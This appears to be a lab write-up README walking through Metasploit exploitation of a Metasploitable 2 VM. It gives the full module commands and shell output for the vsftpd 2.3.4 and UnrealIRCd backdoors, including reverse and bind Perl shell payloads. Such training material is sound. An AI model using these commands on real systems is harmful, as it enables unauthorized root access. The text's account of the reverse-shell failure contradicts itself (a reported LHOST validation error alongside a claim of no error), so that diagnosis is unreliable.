







# Metasploitable 2 — Exploitation Lab Walkthrough

A step-by-step record of a Metasploit-based penetration test against a **Metasploitable 2** lab VM, including a dead-end (MS08-067 against the wrong OS), root-cause diagnosis, and two successful exploits.

> ⚠️ **Disclaimer:** All targets in this walkthrough are lab/practice machines (Metasploitable 2). Never run these exploits or techniques against systems you don't own or don't have explicit written authorization to test.

---

## 1. Initial Misfire — MS08-067 Against the Wrong Target

MS08-067 (`ms08_067_netapi`) exploits a legacy SMB RPC vulnerability that only exists on **unpatched Windows 2000/XP/2003**. It was tried first, before the target OS had been properly confirmed.

**Searching for the module and reviewing its target list:**



**Setting up the module and payload:**



**Result:** `Exploit aborted due to failure: no-target: No matching target` / connection reset. This told us early that the module's OS fingerprinting couldn't match a legacy Windows build — a signal to stop guessing and go back to recon.

---

## 2. Recon — Confirming What's Actually Running

An `nmap -sV` scan of the SMB-hosting target flagged `445/tcp microsoft-ds`, which is what initially suggested SMB might be worth targeting:



Follow-up scans (`smb-protocols`, `smb2-security-mode`) on that specific host showed **SMB2/SMB3 dialects only, no SMBv1** — ruling out MS08-067 entirely for that machine. It's a modern, patched host.

The actual vulnerable box turned out to be a **separate machine** (`192.168.22.201`), later confirmed via `nmap -O` and its full service banner set (vsftpd 2.3.4, UnrealIRCd, distcc-era Samba, rlogin, NFS, Java RMI, etc.) to be a classic **Metasploitable 2** Linux VM — not Windows at all. That's the real reason MS08-067 could never work: wrong OS family entirely.

---

## 3. Successful Exploit #1 — vsftpd 2.3.4 Backdoor

vsftpd 2.3.4 is a well-known trojanized build with a hardcoded backdoor triggered via a malformed FTP login.

**Module setup:**



```
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.22.201
exploit
```

**Result — instant root:**



```
uid=0(root) gid=0(root)
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
whoami
root
```

**Key detail:** this module only supports one payload (`cmd/unix/interact`) because the vulnerability is a hardcoded backdoor listener on port 6200, not a memory-corruption bug — there's no return address to redirect to an arbitrary payload. Metasploit connects *outbound to the target*, so no reverse-callback routing is needed, which is why this exploit worked immediately.

---

## 4. Successful Exploit #2 — UnrealIRCd 3.2.8.1 Backdoor

UnrealIRCd 3.2.8.1 has a backdoor that executes any command appended to a specific string sent over the IRC protocol. Unlike vsftpd, this module supports many payloads.

### First attempt — reverse shell failed

```
set PAYLOAD cmd/unix/reverse_perl
set LHOST 192.168.17.158
exploit
```



**Result:** `Msf::OptionValidateError One or more options failed to validate: LHOST` and `Exploit completed, but no session was created`. The IRC connection and backdoor command send both succeeded, but no error was thrown by the module itself for the actual callback — pointing to a **network routing problem** rather than a bad exploit or payload.

**Root cause:** `LHOST` was set to `192.168.17.158`, but the target lives on the `192.168.22.x` subnet. The backdoor fired the reverse-shell command correctly on the target, but the callback had no route back — it went nowhere, and Metasploit had no way to detect that failure from its side.

### Fix — switch to a bind shell

Since a bind payload makes the *target* open the listening port and the attacker connects *to* it (same direction as the working vsftpd exploit), it sidesteps the cross-subnet routing issue entirely:

```
set PAYLOAD cmd/unix/bind_perl
unset LHOST
set RPORT 6667
set LPORT 4445
exploit
```

**Result — session opened successfully:**



```
[*] Started bind TCP handler against 192.168.22.201:4445
[*] Command shell session 1 opened (192.168.17.158:33585 -> 192.168.22.201:4445)
```

---

## Summary Table

| # | Exploit | Module | Payload Used | Outcome |
|---|---------|--------|---------------|---------|
| 1 | MS08-067 SMB RPC | `windows/smb/ms08_067_netapi` | `meterpreter/reverse_tcp` | ❌ Failed — wrong OS family (target was Linux, not Windows) |
| 2 | vsftpd 2.3.4 backdoor | `unix/ftp/vsftpd_234_backdoor` | `cmd/unix/interact` (only option) | ✅ Root shell, instant |
| 3 | UnrealIRCd backdoor (reverse) | `unix/irc/unreal_ircd_3281_backdoor` | `cmd/unix/reverse_perl` | ❌ Failed — cross-subnet LHOST routing issue |
| 4 | UnrealIRCd backdoor (bind) | `unix/irc/unreal_ircd_3281_backdoor` | `cmd/unix/bind_perl` | ✅ Shell session opened |

## Lessons Learned

1. **Confirm the target OS/service fingerprint before selecting an exploit** — MS08-067 was doomed from the start because it targets Windows and the box was Linux.
2. **"Exploit completed, but no session was created" with no error is a routing symptom, not necessarily an exploit failure.** Check `LHOST` against the target's actual subnet before assuming the payload or module is broken.
3. **Bind shells sidestep reverse-callback routing problems** by having the target open the port instead of dialing out — useful when attacker/target aren't on a directly routable network.
4. **Not every exploit supports arbitrary payloads.** Hardcoded backdoors (like vsftpd's) offer only one payload option; RCE-style vulnerabilities (like UnrealIRCd's) support a full payload menu.

## Repo Structure

All images live in the **same directory** as this README:

```
.
├── README.md
├── 1786706962044_attack-requirements.png
├── 1786706962045_metasploit-search-vulnerabilities.png
├── 1786706962045_smb-open-port.png
├── 1786706962045_unrealicd-exploit-1.png
├── 1786706962046_unrealicd-exploit-2.png
├── 1786706962046_vsftpd-exploit.png
└── 1786706962047_vsftpd-exploit-1.png
```
